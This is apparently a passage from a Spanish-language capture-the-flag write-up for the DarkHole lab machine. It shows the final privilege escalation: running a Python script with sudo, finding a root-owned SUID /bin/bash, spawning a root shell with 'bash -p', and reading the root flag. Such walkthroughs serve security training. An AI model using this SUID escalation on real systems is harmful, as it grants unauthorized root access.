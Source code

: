 ![imagen](/images/darkhole/Pasted%20image%2020231021051843.png)

Para ejecutar el archivo es el siguiente comando:

```
john@darkhole:/home/john$ sudo /usr/bin/python3 /home/john/file.py 
john@darkhole:/home/john$ 
```
Ahora tienen sentido que el `suid` sea el de root
```
john@darkhole:/home/john$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
john@darkhole:/home/john$ 
```
y ejecutamos el comando:
```
bash -p
```
Y listo:
```
bash-5.0# whoami
root
bash-5.0# hostname -I
192.168.93.136 
bash-5.0# 
```
Y por último podemos ver la flag final:
```
bash-5.0# cd /root/
bash-5.0# ls
root.txt  snap
bash-5.0# cat root.txt 
DarkHole{You_Are_Legend}
bash-5.0# 
```

